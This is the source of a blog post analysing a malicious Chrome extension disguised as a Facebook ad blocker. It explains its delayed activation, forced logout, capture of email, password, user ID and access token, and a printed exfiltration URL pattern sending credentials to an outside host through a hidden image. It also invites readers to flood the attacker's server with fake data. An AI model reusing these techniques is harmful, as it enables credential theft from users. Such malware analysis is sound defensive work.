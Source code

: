 ```yaml
---
layout: post
title: Inside a malicious Chrome Extension
---
```

Today I saw a sketchy Facebook ad, an empty “Blogging” site with stock photos advertised an “Ad blocker for Facebook”.

I checked out the site, and saw that it only had negative reviews, stating that it didn’t work and slowed down their browser. This made me curious.

## The Extension
![Screenshot from the Chrome Web Store]({{site.url}}/public/chrome_extension_title.jpg)

The extension claims to block out Facebook advertisements, and — ironically — advertises itself on Facebook for it. This strategy is quite simple but ingenious, I mean who likes to see ads while browsing Facebook? Also if you are seeing their advertisement, you obviously have no AdBlocker installed for it.

The Chrome Web Store says it has a total of 10k+ users.

## Behind the Scenes

Analyzing Google Chrome Extensions can be quite easy, atleast when the code — like in this example — isnt obfuscated.

You can just download it, get the unique extension ID from chrome://extensions, and then look at the source code found in your Profile Folder\Extensions\IDofYourExtension.

## Basic Structure

The Extension folder has 4 subfolders, a empty .vs folder, suggesting that the developers used Visual Studio, a _metadata folder filled with file hashes, this seems to be a Chrome Extension standard to guarantee that the files haven’t been modified or corrupted, a img folder with the extension logo, and finally the interesting part: A folder named **js**.

This folder has a total of 4 non obfuscated JavaScript files, and — *as all good JavaScript programs* — a jQuery dependency.

We will focus on 2 files: **background.js** and **fb3.js**.

In background.js, a listener is added when the Chrome extension is installed, it waits 25 seconds until it executes the function **s_fun_en()**

{% gist 7e8d06bcadafce622d6d4c92872c3e72 background.js %}

The delay of 25 seconds is interesting, the extension tries to not raise suspicion with a variety of timing strageties.

The function **s_fun_en()** is full of these timing strageties. First it creates a timestamp, and saves it to the variable **n**, which will later be compared to the **app.lt** variable, while ensuring that **app.lt** is not the default value of **0**.

**app.lt** is the timestamp of installation, the function **s_fun_en()** results in nothing until 11 hours have passed since the installation.

{% gist 115b6e212affcb2945c1f7b4a5aee6eb background.js %}

This condition is true when **n** (the current timestamp) is bigger than the installation timestamp + 11 hours.

If 11 hours have passed the extension begins working: It removes 2 cookies from Facebook, resulting in deauthentication, and also marks the time when the user was kicked out of his Facebook account in the **app.ltr** variable.

This helps the extension to remain under the radar, so the user does not raise suspicion when he is logged out directly after installing this extension.

This is when we have a look at the **fb3.js** file, it listens for the moment when the user is logging into Facebook again.

The extension steals the E-Mail and password, and sends it to the message listener in **background.js**

{% gist 044fd5c39cb1f0ad46dd770ac1b8bf19 fb3.js %}

The listener saves the E-Mail and password combination into the **app.ld** variable, and proceeds to store the **c_user** cookie in **app.u**, containing the unique ID of the victims Facebook profile. If it can’t find this cookie, it executes the function again, until it gives up after a minute.

The **fb3.js** has another function, which constantly tries to grab the Facebook access token, if it succeeds it is also stored in **app.t**

{ % gist 6acf2a878e1cb69521cb2a7dfdcc6072 background.js %}

So now the extension has successfully grabbed the E-Mail and Password, the unique ID, and the access token.

The obtained information is quite critical, the E-Mail and Password could be used to access the users Facebook account, or to access other accounts in which the same combination is used.

**The extension has gathered a lot of information, the breaking point however is how it transfers this information back to the owner.**

## The Exfil

Typically, malware has a breaking point: The Exfiltration of it's stolen data, or contacting a C&C Server to receive further instructions.

While code can be obfuscated, and (most of the times) gives no clue to whoever made it, the malware has to contact some server (which can be reported, to law enforcement or easier the hosting provider) to submit it’s findings.

After all the work on the local side is done, **background.js** get’s to work again:

It checks if all the needed data is grabbed, and saves the E-Mail password combination into **d**, base64 encodes it, and then embeds a picture.

{% gist e1810d7eec2b783cef019d445bc76613 background.js %}

The picture is generated from www.en-antibanner.ru/img.php , and the extension adds a lot of parameters to it.

``https://en-antibanner.ru/img.php?d=EMailAndPassword&u=UserID&l=&rnd=RandomNumber``

This picture is 1x1 big, so you really wouldn’t see it.

Loading an image, rather than making a POST request to some sketchy server, is less likely to be detected.

## Measures taken

I reported the extension to the Chrome Web Store and Facebook, I will talk more about in a second. *Note from future Altay: Chrome took it down, and also heavily improved their extension security with [Manifest V3](https://developer.chrome.com/docs/extensions/mv3/intro/)*

I had a quite funny idea: What would happen if you would trash their database by adding tons and tons of random data. They would get the infected users credentials for sure, but they would have to search for it between all the junk data.

I wrote a quick JavaScript which creates a fake E-Mail and Password combination, a fake User ID and then sends it to the server.

You can add fake data by visiting this [JSFiddle](https://jsfiddle.net/ozj1mhpu/) and hitting the “Run” Button, once, twice or maybe a thousand times. *Future Altay: The website is down, it was fun nonetheless*

**Thank you for reading!** I am not quite sure how to think about this, Chrome Web Store has virtually no security measures, I wasn’t warned that this file could be a virus and the extension seems to be able to do just about everything, while users can install it with one-click. *Future Altay: Manifest V3 is better I guess, although users will probably accept every single permission requested*

[You can look into the extension yourself, I uploaded it to my GitHub](https://github.com/AltayAkkus/FacebookAdBlocker)